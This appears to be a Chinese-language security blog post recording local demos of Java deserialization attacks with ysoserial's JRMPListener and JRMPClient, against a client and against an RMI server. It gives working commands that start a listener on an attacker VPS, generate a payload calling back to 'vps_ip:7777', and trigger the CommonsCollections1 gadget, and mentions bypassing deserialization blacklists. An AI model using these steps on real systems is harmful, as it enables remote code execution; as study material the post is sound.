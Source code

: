 ```yaml
---
layout:     post
title:      JRMPListener && JRMPClient使用小记
subtitle:   
date:       2020-04-12
author:     跳跳龙
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - java安全
            
---
```


目前很多的反序列化的漏洞在利用的过程中都使用到了JRMPListener，JRMPClient。但实际上，在ysoserial项目中，exploit和payloads这2个单词意义是不同的。以前我一直都不怎么区分这2个概念。payloads偏向于一种静态的概念，可以是生成的二进制负载数据。exploit更偏向于一种主动的攻击程序。下面我用2个本地的简单的demo就能对比一下。2个demo分别是正着打server和反着打。就是反序列化可以来回打，有种“踢你一脚，结果让人家反手一巴掌”的感觉。

### 使用JRMP模拟RMI Client反打。

#### 第一步
在VPS端开启JRMPListener

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 7777 CommonsCollecitons1 'open /Applications/Calculator.app/'
```

#### 第二步
在本机生成JRMPClient Payloads

```
java -jar ysoserial.jar JRMPClient 'vps_ip:7777' > jrmpclient.cer
```

![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-01.jpg)

#### 第三步
在本机电脑上模拟在反序列化的场景，反序列化上一步中生成的payload。

```
FileInputStream fin = new FileInputStream("/Users/tangtianlong/hackingtools/ysoserial/jrmpclient.cer");
        ObjectInputStream obin=new ObjectInputStream(fin);
        obin.readObject();
```

这个时候就会触发本机中的CommonsCollecitons1的调用链。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-02.jpg)
VPS端同时也打印了来自客户机的调用日志。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-03.jpg)

#### 疑问
这里肯定会有种疑问，客户机中明明存在CommonsCollecitons1的调用依赖，为什么还绕了一大圈才触发Gadget。这种在一些特定的场景下是很有奏效的。

比如客户机这里存在一些黑名单的校验，可以采用这种方式进行反序列化绕过。


### 使用JRMP正打，攻击RMI Server端

#### 第一步

这里为了方便，还是使用一个java原生反序列化的操作。服务器的代码如下：

```
FileInputStream fin = new FileInputStream("/Users/tangtianlong/hackingtools/ysoserial/jrmplistener.cer");
        ObjectInputStream obin=new ObjectInputStream(fin);
        obin.readObject();
```

首先生成待反序列化的payloads 目的是为了让服务器开启1099端口，开放一个rmi服务。
(下图中的代码我直接输出出来了，可以写入到jrmplistener.cer文件中)

![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-04.jpg)


#### 第二步
1099端口发现开启之后，可以使用exploit/JRMPClient直接打。
![](http://tiaotiaolong2.cn-bj.ufileos.com/blog37-05.jpg)

可以弹出日历程序。

其实除了JRMPClient可以攻击server端，还有exploit/RMIRegistryExploit也同样可以攻击rmi server。但是两者的原理是不一样的。 



